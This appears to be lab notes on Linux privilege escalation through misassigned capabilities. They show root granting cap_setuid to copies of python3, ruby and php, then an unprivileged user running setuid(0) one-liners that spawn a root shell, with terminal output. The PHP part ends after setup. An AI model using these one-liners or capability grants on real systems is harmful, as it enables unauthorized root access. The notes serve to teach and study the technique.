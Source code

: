 Sysadmin running root may stuff up the capabilities and allow setuid as root
```
root@kali:/home/kali/code/capabilities# id
uid=0(root) gid=0(root) groups=0(root)
root@kali:/home/kali/code/capabilities# cp $(which python3) ./python3_mod
root@kali:/home/kali/code/capabilities# setcap cap_setuid+ep python3_mod 
root@kali:/home/kali/code/capabilities# 
```

Now as a user you can get elevated priv running that modified python3_mod. OUr uid now changes to root
```
kali@kali:~/code/capabilities$ python -c 'import os; os.setuid(0); os.system("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
OSError: [Errno 1] Operation not permitted

kali@kali:~/code/capabilities$ getcap -r .
./python3_mod cap_setuid=ep
kali@kali:~/code/capabilities$ ./python3_mod -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@kali:~/code/capabilities# id
uid=0(root) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)

```

### Ruby scenario

Sysadmin misconfig ruby
```
root@kali:/home/kali/code/capabilities# cp $(which ruby) ./ruby_mod
root@kali:/home/kali/code/capabilities# setcap cap_setuid+ep ruby_mod 
```

User
```
kali@kali:~/code/capabilities$ ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
Traceback (most recent call last):
        1: from -e:1:in `<main>'
-e:1:in `setuid': Operation not permitted (Errno::EPERM)

kali@kali:~/code/capabilities$ getcap -r .
./ruby_mod cap_setuid=ep
kali@kali:~/code/capabilities$ ./ruby_mod -e 'Process::Sys.setuid(0); exec "/bin/sh"'# id
uid=0(root) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
# 
```

### PHP Scenario

Sysadmin misconfig php
```
root@kali:/home/kali/code/capabilities# cp $(which php) ./php_mod
root@kali:/home/kali/code/capabilities# setcap cap_setuid+ep php_mod
```
